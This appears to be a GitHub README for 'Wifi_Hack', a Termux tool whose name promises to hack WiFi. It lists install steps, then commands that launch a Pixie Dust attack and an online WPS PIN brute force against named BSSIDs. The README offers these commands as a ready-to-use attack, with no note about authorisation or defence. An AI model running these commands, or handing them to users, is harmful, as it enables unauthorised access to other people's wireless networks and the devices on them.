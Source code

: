 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src=".assets/demo.gif"></p>

### Installation :

```bash
pkg update && apt upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wifi_hack
cd wifi_hack
chmod +x wifi.py
```
#### Help : `sudo python wifi.py --help`
#### Example : `sudo python wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@
